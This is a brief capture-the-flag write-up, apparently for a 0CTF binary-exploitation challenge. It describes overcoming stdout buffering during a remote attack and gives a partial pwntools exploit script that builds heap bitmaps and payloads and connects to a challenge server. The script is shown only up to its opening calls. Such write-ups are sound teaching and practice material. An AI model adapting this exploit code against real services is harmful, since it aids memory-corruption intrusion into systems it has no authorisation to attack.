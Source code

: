 # Remotely attack

While performing the remote attack, we find the server would not leak the address for the setting of `stdout-buffer` is the default setting. This problem stopped me for about 12hours.  However, my teammate @wang solved this by sending `0xe00 * b'\0'`! I have tested to send data to fill the buffer. However, I used `while loop` and `faild` . Luckily, with @wang's help, we solved it before the end of 0CTF! 

# Exploit

```python

from pwn import *

def cmd(c):
	p.sendline(str(c).encode('utf8'))
def add(size,c=b'A'):
	cmd(1)
	cmd(size)
	p.sendline(c)
def maga(s):
	cmd(0)
	p.send(s.ljust(0x7,b'\\0'))
def bits(index,k=1):
	bitmap=[0]*0x80
	bitmap[index]=k
	bitmap=bytes(bitmap)
	return bitmap
def bit(index=0x4c):
	bitmap=[0]*0x80
	for x in range(0x47,index):
		bitmap[x]=7
	bitmap=bytes(bitmap)
	return bitmap
def gen():
	res=b""
	t=0x270//8
	for x in range(t):
		if(x==0x0a or x==0xa+0x100):
			res+=p64(0)
		else:
			res+=p64(x)
	return res
def X(x=''):
	if(DEBUG):
		gdb.attach(p,x)
DEBUG=0
if(DEBUG):
	p=process("./pwn")
	context.log_level='debug'
else:
	#p=remote("1.117.189.158",60001)
	#p=process("./pwn")
	#p=remote("192.168.174.1",60001)
	p=remote("0.0.0.0",1025)

maga(b"-"+str(0xa0160//8).encode('utf8'))
context.arch='amd64'
X()

cmd(0)

```